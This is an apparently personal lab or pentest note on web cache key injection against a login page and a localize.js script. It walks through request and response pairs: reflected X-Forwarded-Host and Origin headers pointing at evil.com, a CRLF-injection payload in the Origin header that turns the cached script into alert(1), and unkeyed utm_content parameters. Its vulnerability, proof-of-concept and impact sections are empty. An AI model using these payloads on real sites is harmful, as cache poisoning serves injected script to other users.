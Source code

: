 # Note(Datetime, Name) :  Cache Key Injection

### Metodelogy
 1. Investigate the system to retrieve a list of features
 2. Discribe the feature and explain how it works
 3. List possible vulnerabilities and group by feature
 4. Proof of concept for possible vulnerabilities
 5. What is the impact of the vulnerabilities after the proof of concept ? 


# ==========================================================================================================

>

## feature:      
1. Login -> redirected to user login page   /login/?lang=en
### steps taken:
1. GET /login/?lang=en with request payload   ->   noting happend, evil.com and Pragma: x-get-cache-key not reflected
request:
``` 
X-Forwarded-Host: evil.com
Pragma: x-get-cache-key  
```
response:  
```
HTTP/1.1 200 OK
Cache-Control: no-cache
Content-Type: text/html; charset=utf-8
Vary: origin
X-Frame-Options: SAMEORIGIN
Connection: close
Content-Length: 3343

```
2. GET /  ->  redirected to /login?lang=en and page is cacheable 
3. GET / with payload  -> got response X-Cachge-Key , that indicated the page was cache using key /$$
request:
```
Pragma: x-get-cache-key

```
response : 
```
HTTP/1.1 302 Found
Location: /login?lang=en
Vary: origin
X-Frame-Options: SAMEORIGIN
Cache-Control: max-age=35
Age: 27
X-Cache-Key: /$$
X-Cache: hit
Connection: close
Content-Length: 0


```
4. GET /with payload  -> X-Cache-Key is change follow like this /$$origin=evil
### request:
```
origin: evil
Pragma: x-get-cache-key

```
### response:
```
HTTP/1.1 302 Found
Location: /login?lang=en
Vary: origin
X-Frame-Options: SAMEORIGIN
Cache-Control: max-age=35
Age: 0
X-Cache-Key: /$$origin=evil
X-Cache: miss
Connection: close
Content-Length: 0

```
5. GET /login/ with payload  -> X-Cache-Key is change to /login$$origin=evil, and Location header to /Login/
6. GET /login/?lang='%3C   -> Page is reflected but original url is santiazed become like ``` this login/?lang=&apos;&lt; ``` 
7. GET /js/localize.js?lang=en&cors=1 -> Page reflected with response header ``` Set-Cookie: session=8SvcWA6I522Y0KiWEGNKdWZttLCnkb0c; Secure; HttpOnly; SameSite=None ```
8. GET /js/localize.js?lang=en&cors=1  add header ``` origin: https://evil.com ``` -> page reflected with response like this :
### response: 
``` 
Access-Control-Allow-Origin: https://evil.com
Set-Cookie: session=KdiRewMLPsKBG2kZ7TEXnjTgOMMakuyx; Secure; HttpOnly; SameSite=None 
```

9. GET /js/localize.js?lang=en&cors=1 add header ``` origin: evil.com%0d%0aContent-Length:%208%0d%0a%0d%0aalert(1) ``` -> that make localize content response was changed like below , that indicated i can exeture javascring  using header injected Carriage Return Line feed (CRLF)
### response:
```
HTTP/1.1 200 OK
Content-Type: application/javascript; charset=utf-8
Access-Control-Allow-Origin: evil.com
Cache-Control: max-age=35
Age: 0
X-Cache-Key: /js/localize.js?lang=en&cors=1$$origin=evil.com%0d%0aContent-Length:%208%0d%0a%0d%0aalert(1)
X-Cache: miss
Connection: close
Content-Length: 8

alert(1)
```
10. GET /login/?lang=utm_conten=%26cors=1  -> that make page change request to /js/localize.js?lang=utm_conten=&cors=1&cors=0 
11. GET /js/localize.js?lang=en&cors=1#&cors=0 -> that make server ignore the rest of url after '#' 
12. first GET /login?lang=en and second GET /login?lang=en&utm_content=2 -> second request is cache hit that mean utm_content is uncached key , `utm_content` is url tracking parameter
13. GET /login?lang=en&utm_content=%26cors=1# -> the request to /js/localize.js not change query parameter to utm_cotent like ?lang=en&utm_content=%26cors=1#
14. first GET /login?lang=en and second GET /login?lang=en?utm_content=2 -> second request is cache hit that indicated utm_content is uncached key
15. GET /js/localize.js?lang=en?utm_content=z&cors=1&t=1$$#&cors -> that make cache key like this``` x-cache-key: /js/localize.js?lang=en?cors=1&t=1$$$$origin=evil.com%0d%0aContent-Length:%208%0d%0a%0d%0aalert(1)  ```





## vulnerabilities : 
## Proof of concept:
## impact

## takeaways


